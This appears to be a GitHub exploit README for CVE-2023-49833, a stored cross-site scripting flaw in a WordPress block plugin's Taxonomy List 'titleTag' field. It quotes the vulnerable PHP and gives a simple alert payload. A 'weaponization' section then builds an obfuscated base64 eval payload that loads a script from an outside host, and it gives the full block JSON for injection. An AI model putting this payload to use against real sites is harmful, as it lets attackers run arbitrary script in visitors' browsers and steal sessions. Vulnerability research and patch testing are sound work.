





https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-49833/

>[!note]
> I do not take credit for finding this, I only simply weaponized it as it was missing technical details on exploitation.

## Vulnerability Technical Details

The titleTag is vulnerable to XSS in the Taxonomy List block, they did not properly filter it as an attribute, but rather html instead, we can append an entire attribute to the class node.

> Vulnerable Code - ./class-uagb-taxonomy-list.php
```php
<a class="uagb-tax-link" href= "<?php echo esc_url( $link ); ?>">
	<<?php echo esc_html( $titleTag ); ?> class="uagb-tax-title"><?php echo esc_html( $value->name ); ?>
	</<?php echo esc_html( $titleTag ); ?>>
	<?php if ( $showCount ) { ?>
			<?php echo esc_attr( $value->count ); ?>
			<?php $countName = ( $value->count > 1 ) ? esc_attr( $singular_name ) . 's' : esc_attr( $singular_name ); ?>
			<?php echo esc_attr( apply_filters( 'uagb_taxonomy_count_text', $countName, $value->count ) ); ?>
	<?php } ?>
</a>
```

Firstly, we will want to add a taxonomy list, make a new post, and add the taxonomy block.





Now click on code editor.



Append the titleTag to the end of taxonomy-list block. The following can be added to trigger XSS:

```
"titleTag":"svg onload=alert(1)"
```



Now save and publish the page, and then go ahead and view it.



### Weaponization

Below I will demonstrate how to load a remote script with this vulnerability.

> Un-base 64'd script include
```
echo 'var s = document.createElement("script"); s.src = "https://script.com"; document.body.appendChild(s);' | base64
```

> Base64
```
dmFyIHMgPSBkb2N1bWVudC5jcmVhdGVFbGVtZW50KCJzY3JpcHQiKTsgcy5zcmMgPSAiaHR0cHM6Ly9zY3JpcHQuY29tIjsgZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChzKTsK
```


> Malicious Payload
```
svg onload=javascript:eval(atob(`dmFyIHMgPSBkb2N1bWVudC5jcmVhdGVFbGVtZW50KCJzY3JpcHQiKTsgcy5zcmMgPSAiaHR0cHM6Ly9zY3JpcHQuY29tIjsgZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChzKTsK`))
```

> Full Payload
```
{"overallBorderTopWidth":1,"overallBorderLeftWidth":1,"overallBorderRightWidth":1,"overallBorderBottomWidth":1,"overallBorderTopLeftRadius":3,"overallBorderTopRightRadius":3,"overallBorderBottomLeftRadius":3,"overallBorderBottomRightRadius":3,"overallBorderStyle":"solid","overallBorderColor":"#E0E0E0","overallBorderHColor":"#E0E0E0","block_id":"cfa0112c","titleTag":"svg onload=javascript:eval(atob(`dmFyIHMgPSBkb2N1bWVudC5jcmVhdGVFbGVtZW50KCJzY3JpcHQiKTsgcy5zcmMgPSAiaHR0cHM6Ly9zY3JpcHQuY29tIjsgZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChzKTsK`))"}
```